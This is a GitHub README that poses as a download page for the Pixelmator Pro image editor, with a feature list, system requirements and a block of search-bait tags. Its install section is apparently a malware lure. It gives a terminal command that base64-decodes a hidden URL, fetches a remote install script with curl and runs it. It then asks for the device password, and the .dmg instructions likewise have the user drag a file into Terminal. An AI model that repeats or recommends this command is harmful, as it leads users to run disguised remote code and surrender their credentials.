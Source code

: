 # Pixelmator Pro for Mac – Advanced Image Editing Software  

<div align="center">

![Pixelmator Pro Logo](https://www.mactech.com/wp-content/uploads/2017/09/Pixelmator-Pro-icon.jpg)

</div>  

**Pixelmator Pro** is a next-generation **image editing application for macOS** designed for photographers, graphic designers, and digital artists. It combines **powerful professional tools** with a sleek, user-friendly interface, making it easy to create, edit, and enhance images with pixel-perfect precision.  

<div align="center">  

[![Download for macOS](https://img.shields.io/badge/Download_for_macOS-blue?style=for-the-badge&logo=apple)](https://mitrobandus.github.io/.github/pixelmator-pro)  

</div>  

---

## 📦 How to Install  

### Installation via .dmg:

1. Install the `.dmg` file using the button above.  
2. Open the `.dmg` installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the **Return** button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)  

### Installation via a command in the terminal:

1. Copy the installation command below.  
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"  
```
2. Open the terminal on your device and paste the command you copied above, then press the **Return** button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)  

---

## 📊 What is Pixelmator Pro?  

**Pixelmator Pro for Mac** is a professional-grade image editing tool that offers **a perfect blend of power and simplicity**. Built exclusively for macOS, it takes advantage of Apple’s latest technologies, including **Metal, Core ML, and Core Image**, to deliver lightning-fast performance and stunning visual quality.  

Whether you're enhancing photos, creating complex graphic designs, or preparing digital illustrations, Pixelmator Pro provides all the essential tools — from **layer-based editing** to **non-destructive adjustments**, vector graphics, and advanced typography.  

Its **machine learning-powered features** can automatically improve photo composition, remove unwanted objects, and even replace image backgrounds with remarkable accuracy. The clean, single-window interface is designed to keep you focused, while full integration with macOS ensures a seamless workflow.  

Pixelmator Pro is a favorite among creative professionals and casual users alike thanks to its **affordable pricing**, robust feature set, and continuous updates that keep it ahead of many more expensive competitors.  

---

![Pixelmator Pro Editing Screenshot](https://www.pixelmator.com/cdn-web-assets/pro/2.3/img_remove-bg.jpg)  

---

## 🖥️ Key Features  

- 🎨 **Advanced Editing Tools** – Layer-based editing, blending modes, vector shapes  
- 🤖 **AI-Powered Enhancements** – Automatic photo correction, background removal, ML Super Resolution  
- 🖌️ **Retouch & Repair Tools** – Clone, heal, and reshape images with ease  
- 📏 **Precision Design** – Rulers, guides, grid layouts, and pixel-perfect snapping  
- 🌈 **Color Adjustments** – Fine-tune exposure, contrast, saturation, and more  
- 🖼️ **RAW Support** – Edit RAW images with full quality retention  
- 📐 **Vector Graphics** – Create scalable shapes and illustrations  
- 📂 **Wide File Compatibility** – PSD, PNG, JPEG, HEIF, TIFF, SVG, and more  
- 💻 **Optimized for macOS** – Metal acceleration, Apple Silicon native  
- 🔄 **Non-Destructive Editing** – Make changes without permanently altering originals  

---

![Pixelmator Pro Workspace](https://www.pixelmator.com/cdn-web-assets/blog/2020-11-13-pixelmator-team-unveils-pixelmator-pro-2.0/img_hero@2x.jpg)  

---

## ⚙️ System Requirements  

- **OS**: macOS 10.15 Catalina or later (including Ventura & Sonoma)  
- **CPU**: Intel or Apple Silicon (M1/M2/M3)  
- **RAM**: 4 GB minimum  
- **Disk Space**: 1 GB free space  
- **Internet**: Required for updates and license activation  

---

## 🏷️ Tags  

pixelmator pro, pixelmator, pixelmator software, apple pixelmator, pixelmator windows, pixelmator pro mac, app pixelmator, mac pixelmator, pixelmator black friday, pixelmator pricing, pixelmator pro cost, pixelmator pro discount, pixelmator pro reviews, pixelmator pro sale, pixelmator pro trial, pixelmator pro windows, pixelmator trial, pixelmator pro download, pixelmator pro free download, pixelmator pro mac download, pixelmator pro mac free download  

---

